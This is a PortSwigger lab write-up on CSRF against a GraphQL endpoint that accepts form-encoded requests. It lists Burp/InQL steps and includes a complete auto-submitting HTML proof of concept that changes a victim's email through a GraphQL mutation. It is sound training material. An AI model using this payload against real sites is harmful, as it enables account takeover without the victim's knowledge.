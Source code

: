 
----

### Lab description


The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of `x-www-form-urlencoded` and is therefore vulnerable to [cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF) attacks.

To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address, then upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see [Working with GraphQL in Burp Suite](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql).


### Lab Solution


- First find the change email functionality and them send the request to INQL extension

![](/static/img/Pasted_image_20230703220135.png)

- Change the request encoding to `application/x-www-form-urlencoded`

![](/static/img/Pasted_image_20230703220207.png)


- Generate a CSRF POC with burp or coding some HTML

```html

<html>
  <body>
    <form action="https://yourlabid.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;jodson&#64;portswigger&#46;net&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>



```

- Go to your lab Exploit server and save this POC and click at `store` button.

- Click at `Deliver exploit to the victim` 

![](/static/img/Pasted_image_20230703220621.png)


- Lab Solved!

![](/static/img/Pasted_image_20230703220532.png)